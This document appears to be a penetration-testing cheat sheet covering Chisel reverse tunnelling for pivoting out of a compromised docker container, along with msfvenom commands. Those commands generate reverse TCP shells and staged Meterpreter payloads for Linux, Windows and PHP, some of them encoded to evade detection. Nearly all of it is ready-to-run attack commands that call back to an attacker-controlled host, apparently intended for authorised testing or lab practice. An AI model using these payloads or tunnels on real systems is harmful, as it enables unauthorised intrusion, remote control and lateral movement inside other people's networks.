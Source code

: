 ## Port Forwarding (without meterpreter):
You can use Chisel (https://github.com/jpillora/chisel ) to use port forwarding if you can't SSH or use meterpreter. Of particular coolness is the ability to run  chisel on the target as a client, have it call back to your box running as a server, and initiate "reverse" tunnels, (which look more like forward tunnels), so you can hit localhost:port and have that connect to an internal server using your target as a pivot. Here's an unautheticated example that would let you land in a docker container that can't expose new ports, call back hom, and probe the host or host networks.
	
### Server
	```./chisel_1.7.7_linux_amd64 server -p 443 --reverse```
### Client
	```client $MYIP:4243 R:8000:172.17.0.1:80```

and then browse to localhost:8000
	
	
# Meterpreter / MSFVenom:
	
## Prevent msfconsole from spawning its own listener (use your own netcat):
```DisablePayloadHandler => true```
	
## MSFVenom Payload Creation
Especially useful for buffer overflow payloads. 
### Unstaged Reverse TCP shell
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p windows/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
msfvenom -p php/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0" -o payload.c
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f py -e x86/shikata_ga_nai -b "\x04\xA0" -o payload.py



```

### Staged Meterpreter
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```
